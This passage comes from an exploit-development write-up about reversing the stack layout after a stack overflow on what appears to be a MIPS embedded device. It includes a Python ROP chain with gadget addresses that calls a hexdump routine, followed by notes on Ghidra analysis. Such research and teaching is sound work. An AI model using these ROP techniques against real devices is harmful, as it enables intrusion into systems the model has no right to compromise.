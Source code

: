 ## Reversing Stack Layout

We need to worry about more than just the registers, if we overflow a massive chunk of the stack, and destroy loads of previous stack frames in the process, it won't be very fun to clean up. We need to make sure the stack is in a recoverable state, and that the stack pointer is pointing to a valid location. 

The stack dump in the crash isn't useful as it starts at the current *$sp* and grows upwards, meaning the stack frame of the previous function call is not displayed.

To make reversing the stack layout easier, I found a *hexdump* function that hexdumps memory using a passed location and length, then crafted a ROP chain that would use this to print the stack to the debug shell:

```
-python
chain += p32(0x802ab980) # s0 (address to read)
chain += p32(0xdecea5ed) # s1
chain += p32(0xdecea5ed) # s2
chain += p32(0xdecea5ed) # s3
chain += p32(0xb0228 + base_address) # ra

# Move address into a0
# 0x000b0228: move $a0, $s0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdecea5ed) # s0
chain += p32(0x71b68 + base_address) # ra

# 0x00071b68: addiu $a1, $zero, 0x8bf; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x57864 + base_address) # ra

# Load and call hexdump
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(0x8019966c) # v0 - hexdump address
chain += b'b' * 8
chain += p32(0x15114 + base_address) # ra

# 0x00015114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0xdeadbeef) # ra
```

Unfortunately, the stack is so small that the chain overwrote most of the stack frames below the overflowed functions stack frame, so it didn't end up being very useful! It isn't completely useless however, as we can use it to debug shellcode later.

As there isn't a nice way of reading out the stack, we can use the overwritten *$ra* value (*0x801888e0*) to manually work out the layout. If we go to this address in Ghidra, we can work out the size of the stack frame of the function by looking at the first and last instructions where it adjusts the stack pointer. Here is that function:
